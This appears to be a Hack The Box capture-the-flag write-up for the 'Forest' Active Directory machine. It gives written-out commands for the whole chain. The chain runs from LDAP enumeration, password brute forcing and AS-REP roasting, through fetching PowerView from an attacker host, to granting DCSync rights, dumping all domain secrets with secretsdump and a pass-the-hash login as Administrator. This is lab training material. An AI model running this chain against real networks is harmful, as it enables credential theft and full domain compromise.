# Forest

<details>
<details>
  <summary><strong>Summary</strong></summary>
Scan the machine's ports and find winrm and LDAP services running. Use LDAPsearch to find the password policy has no limits on login attempts and start trying to brute force using crackmapexec. While brute forcing is going, look at impacket examples for more options on what to do <code>/usr/share/doc/python3-impacket/examples</code>. Find the GetNPUsers tool and use it to harvest the non-preauth AS_REP responses for users. Crack the resulting hash using hashcat. Check for which shares the user has access to. Check for winrm ports and use the credentials and evil-winrm to login to the machine. 
Upload Sharphound to the machine and enumerate the AD setup. Move the sharphound file back to linux and view it using Bloodhound. Find a WriteDacl exploit that the base user can perform. Upload Powerview, then perform the WriteDacl exploit, creating a new user with DACL privileges. Use impacket-secretsdump to get secrets, keys, and credentials from all the users. An admin hash was provided, so use a pass-the-hash attack to get a root shell.

</details>
<br>

<summary2><strong>What I Learned</strong></summary2>

<body>

1. Follow the instructions on the Bloodhound and use PowerView (Import-Module) when enumerating
2. use LDAPSearch to look for available information on the server (naming contexts, SAM account types, Object Categories, groups, etc)
3. When running Sharphound on the target always use `-c all` to get all data possible in the scrape
4. When you are not sure what to do with AD instance, go look up impacket examples in `/usr/share/doc/python3-impacket/examples`

</body>
</details>

#### Scan the machine for open ports



LDAP returns a server, so start using ldapsearch


Filter the users down from automatically created accounts - find 5 users and save them into users.ldap

```
ldapsearch -x -H 'ldap://10.129.194.239' -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.ldap
```

Ldapsearch for naming contexts



Before brute forcing, check the policy for passwords on the AD instance using WinPEAS or crackmapexec




Brute force the password using crackmapexec  
`crackmapexec smb 10.129.52.209 -u users.out -p pwlist.txt`

Not sure what else to do, so look at impacket examples  
`/usr/share/doc/python3-impacket/examples`  
Find impacket GetNPUsers.py package  
`./GetNPUsers.py -dc-ip 10.129.52.209 -request 'htb.local/'`
Use it and get the service account information


Check the open ports for a port using winrm. Find one and try using evil-winrm to login.



Login using evil-winrm


Upload Sharphound to the target machine using iwr, then run sharphound



Look at the results using sharphound. Find an AS-REP Roastable account that is the one we already have access to.


Find a Kerberoastable account


The Exchange Windows Permissions Group has WriteDACL privileges on the domain, which means any member of the group can access the Discretionary Access Control List on the target domain and grant themselves any privileges on the object.  
Create a new user in the domain group and add it to the "Exchange Windows Permissions" Group




Now follow the commands from the WriteDACL line for windows exploitation in the bloodhound graph
First, import Powerview

```
iwr -uri 'http://10.10.14.202/PowerView.ps1' -O PowerView.ps1

Import-Module .\PowerView.ps1
```

Then follow the instructions from Bloodhound. Add the PrincipalIdentity flag and include the full length naming context for the TargetIdentity Add-DomainObjectsAcl command.

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('HTB\bob', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bob -Rights DCSync
```

Then use Secretsdump to get the Password dump  
`impacket-secretsdump 'htb.local/bob:Password123!@10.129.36.42'`



Execute a pass the hash attack and get the root flag from the Admin Desktop

```
impacket-wmiexec -hashes :32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.129.36.42
```
